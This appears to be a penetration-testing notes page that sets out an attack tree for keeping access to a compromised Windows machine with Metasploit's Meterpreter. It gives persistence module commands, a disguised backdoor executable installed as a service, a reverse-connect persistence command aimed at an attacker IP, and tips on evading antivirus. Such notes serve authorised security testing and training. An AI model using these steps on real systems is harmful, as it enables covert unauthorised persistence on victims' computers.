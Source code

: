 # Maintaining access on Windows with Meterpreter

## Attack tree

```text
1 Maintain access on Windows
    1.1 In meterpreter background the current basic shell (AND)
    1.2  > use exploit/windows/local/persistence (AND)
    1.3 Set EXE_NAME to something less suspicious (like browser.exe) (AND)
    1.4 Set SESSION to the id of the basic shell just put in the background (AND)
    1.5 > show advanced
    1.6 Inject backdoor as a service with > set EXE::Custom [backdoor location] (/var/www/html/evil-files/backdoor.exe) (AND)
    1.7 > exploit
    1.8 Store the Meterpreter RC_file path for cleanup later
```

## Notes

### Problems

* Using Veil Evasion's `rev_http_service` and `rev_tcp_service` can be used instead of a backdoor, or uploaded from meterpreter. This does not always work.
* Using Meterpreter's persistence module (`> run persistence -U -i 20 -p 80 -r [IP address]`) is detectable by AV.
* A combination of the two solves these problems.

## Cheatsheets

* [Windows post exploitation enumeration](cheatsheets:docs/enumeration/windows-post)
* [Offensive security: Meterpreter Basic Commands](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
* [Metasploit documentation](https://docs.metasploit.com/)